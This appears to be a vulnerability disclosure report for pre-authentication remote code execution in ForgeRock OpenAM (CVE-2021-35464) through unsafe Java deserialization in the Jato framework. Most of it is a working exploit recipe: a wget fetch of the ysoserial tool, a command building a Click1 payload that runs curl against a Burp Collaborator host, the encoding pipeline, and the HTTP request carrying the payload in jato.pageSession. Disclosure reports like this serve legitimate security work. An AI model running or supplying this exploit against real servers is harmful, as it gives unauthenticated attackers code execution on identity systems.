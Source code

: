 
## Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)

RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM.

## Steps To Reproduce

Vulnerable OpenAM: $URL
Target domain: $DOMAIN

First we need to build the payload, I will use the **curl** command but it could be another system command:
 1. Download this jar file 
``wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar``

 2. Create payload  ``java -jar ysoserial-master-SNAPSHOT.jar Click1 "curl https://XXX.burpcollaborator.net" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '=' | tr -d '\n' > payload.txt`` 

You need to change the burp Collaborator id (or *Interactsh*) to test it properly. 
The payload is now saved in the payload.txt file. 

Now we need to use the following request:

```
GET /openam/ccversion/Version?jato.pageSession=XYZ HTTP/1.1
Host: 127.0.0.1
Content-Length: 4



```
Use the file attached on this email if the request doesn't work (pay attention to the empty lines at the bottom)
Replace **XYZ** by the payload saved into the payload.txt file. 

The response
```
HTTP/1.1 302 Found
Date: Fri, 02 Jul 2021 04:12:34 GMT
X-Powered-By: Servlet/3.0
Cache-Control: private
Location: http://127.0.0.1:80/sso/base/AMInvalidURL
Content-Length: 0
Content-Language: en-US

```
The HTTP Request sent the collaborator :


$SCREENSHOTS

## Impact

- An unauthenticated, 3rd-party attacker or adversary can execute remote code

 
### Supporting Material/References
- https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464



